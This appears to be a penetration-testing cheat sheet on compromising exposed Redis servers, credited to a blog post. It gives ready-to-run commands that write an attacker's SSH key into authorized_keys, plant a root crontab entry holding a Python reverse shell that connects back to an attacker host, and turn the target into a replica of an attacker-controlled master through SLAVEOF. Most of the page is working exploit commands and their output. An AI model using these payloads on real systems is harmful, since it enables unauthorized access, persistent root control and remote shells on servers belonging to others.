 # Redis

## Overwrite authorized_keys for ssh

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`

2. Write the public key to a file : `(echo -e “\n\n”; cat ./.ssh/id_rsa.pub; echo -e “\n\n”) > foo.txt`

3. Import the file into redis : `cat foo.txt | redis-cli -h 10.85.0.52 -x set herpaderp`

4. Save the public key to the authorized_keys file on redis server :
   
   ```Bash
   root@kali:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/kapott/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : `ssh -i id_rsa kapott@10.85.0.52`

## Get reverse shell through crontab

```Bash
root@kali:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1

OK

root@kali:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/

OK

root@kali:~# redis-cli -h 10.85.0.52 config set dbfilename root

OK
root@kali:~# redis-cli -h 10.85.0.52 save

OK
```

> The above command need to be adjusted for Ubuntu and Centos  to：
> 
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

## Master-Slave Module

The master redis all operations are automatically synchronized to the slave redis, 
which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)

A master-slave connection will be established from the slave redis and the master redis:

redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379

Then you can login to the master redis to control the slave redis:

redis-cli -h 10.85.0.51 -p 6379
set mykey helloset mykey2 helloworld
```







Source:

- [Urahara's blog](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)
